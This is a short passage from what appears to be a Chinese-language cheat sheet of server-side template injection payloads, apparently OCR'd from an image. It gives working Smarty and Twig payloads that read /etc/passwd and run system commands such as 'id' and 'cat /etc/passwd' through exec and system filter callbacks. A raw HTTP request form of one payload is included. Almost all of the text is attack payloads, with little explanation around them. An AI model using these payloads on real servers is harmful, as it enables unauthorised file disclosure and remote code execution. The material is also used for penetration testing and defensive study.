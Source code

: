   `{if phpinfo()}{/if}`
- ### 4、getStreamVariable
  
  新版本失效  
  `{self::getStreamVariable("file:///etc/passwd")}`
- # twig
  ----
  
  文件读取
  ```
    {{'/etc/passwd'|file_excerpt(1,30)}}
    
    {{app.request.files.get(1).__construct('/etc/passwd','')}}
    {{app.request.files.get(1).openFile.fread(99)}}
  ```
  rce
  ```
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
    
    {{['cat /etc/passwd']|filter('system')}}
    
    POST /subscribe?0=cat+/etc/passwd HTTP/1.1
    {{app.request.query.filter(0,0,1024,{'options':'system'})}}
  ```